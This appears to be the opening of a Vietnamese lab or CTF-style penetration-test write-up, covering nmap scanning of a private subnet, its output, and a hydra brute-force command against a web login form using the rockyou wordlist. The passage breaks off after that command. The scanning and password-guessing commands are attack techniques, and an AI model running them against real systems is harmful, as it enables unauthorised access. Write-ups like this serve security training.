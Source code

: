 Ta không có IP target sẵn như HTB, THM hay các CTF khác. Nên ta cần quét trước:
```Bash
nmap -sN 192.168.80.0/24
```
Ta đã xác định được một IP thuộc dãy External IP
```Bash
Nmap scan report for 192.168.80.1
Host is up (0.26s latency).
All 1000 scanned ports on 192.168.80.1 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap scan report for 192.168.80.10
Host is up (0.37s latency).
All 1000 scanned ports on 192.168.80.10 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap done: 256 IP addresses (2 hosts up) scanned in 444.92 seconds
```
Ok, ta tìm được 2 IP thuộc dãy này. Quét tiếp:
```Bash
nmap -p- -Pn $target -v -T5 --min-rate 1500 --max-rtt-timeout 500ms --max-retries 3 --open -A
```
```Bash
Discovered open port 22/tcp on 192.168.80.10
Discovered open port 80/tcp on 192.168.80.10
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Có vẻ như chỉ có http và ssh. Ta thử truy cập vào web của dãy này:
![[Pasted image 20250828150231.png]]
Hmm, có vẻ ta cần kiểm tra source trước.
Nothing. Brute-forcing
```Bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/index.php:id=^USER^&password=^PASS^&remember=on:S=logout.php" -t 30 -V
```
